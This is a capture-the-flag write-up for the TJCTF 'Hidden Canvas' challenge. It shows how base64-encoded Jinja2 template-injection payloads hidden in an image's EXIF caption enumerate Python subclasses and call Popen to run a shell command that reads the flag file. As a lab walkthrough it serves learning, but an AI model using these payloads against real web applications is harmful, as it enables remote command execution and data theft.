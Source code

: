 ## Hidden Canvas

---

### Challenge

I made this site where you can upload profile pictures, if you happen to embed caption metadata within your image, I'll try displaying it on your profile page.

[https://instancer.tjctf.org/challenge/hidden-canvas](https://instancer.tjctf.org/challenge/hidden-canvas)

---

### Solution

I downloaded a sample `Untitled.jpeg` from online to embed my metadata using `exiftool`.

```
exiftool -ImageDescription="Hello" Untitled.jpeg
```

![image](https://github.com/user-attachments/assets/47065ce5-4bce-4292-a9df-e1235bc25fec)

The error urged me to convert the Image Description into `base64` format. This was the result afterwards.

```
exiftool -ImageDescription="aGVsbG8=" Untitled.jpeg  
```

![image](https://github.com/user-attachments/assets/5c275fa7-4f64-4aff-96d5-78d865fda741)

Next, I thought of trying SSTI payloads to test whether or not it is vulenrable.

```
exiftool -ImageDescription="e3s3Kjd9fQ==" Untitled.jpeg                 #{{7*7}}                                                                                        
```

![image](https://github.com/user-attachments/assets/e8c36b57-e222-410c-9248-02eb278651c5)

The output confirms that it is vulnerable to SSTI attacks. So I tried listing the contents of the directory:

![image](https://github.com/user-attachments/assets/7aa08016-66ec-4bac-8656-ed9f5c32dcda)

What we need to do is read `/flag.txt`. For that we have to check whether we have the necessary subclasses that allow reading the contents of the file.

```
exiftool -ImageDescription="e3sgJycuX19jbGFzc19fLl9fbXJvX19bMV0uX19zdWJjbGFzc2VzX18oKSB9fQo=" Untitled.jpeg                 #{{ ''.__class__.__mro__[1].__subclasses__() }}

```

From the list we find that we have the subprocess `Popen` but we don't know its index location. To find the index, we craft the payload a bit differently.

```
exiftool -ImageDescription="eyUgZm9yIGMgaW4gJycuX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKCkgJX0KICB7eyBsb29wLmluZGV4MCB9fSAtIHt7IGN8c3RyaW5nIH19PGJyPgp7JSBlbmRmb3IgJX0=" Untitled.jpeg

#{% for c in ''.__class__.__base__.__subclasses__() %}
# {{ loop.index0 }} - {{ c|string }}<br>
#{% endfor %}
```

![image](https://github.com/user-attachments/assets/92f28ea8-8d09-4962-b0d4-06c27d55ed44)

From this we find that `Popen` has the index of `353`. Now we can call it to print the contents of `/flag.txt`

```
exiftool -ImageDescription='e3sgJycuX19jbGFzc19fLl9fYmFzZV9fLl9fc3ViY2xhc3Nlc19fKClbMzUzXSgnY2F0IGZsYWcudHh0Jywgc2hlbGw9VHJ1ZSwgc3Rkb3V0PS0xKS5jb21tdW5pY2F0ZSgpWzBdLmRlY29kZSgpIH19Cg==' Untitled.jpeg

# cat flag.txt
```

![image](https://github.com/user-attachments/assets/197df6d5-b3a4-49a4-a66a-d16faeffd8a2)

---

### Flag

`tjctf{H1dd3n_C@nv@s_D3c0d3d_4nd_R3nd3r3d!}`
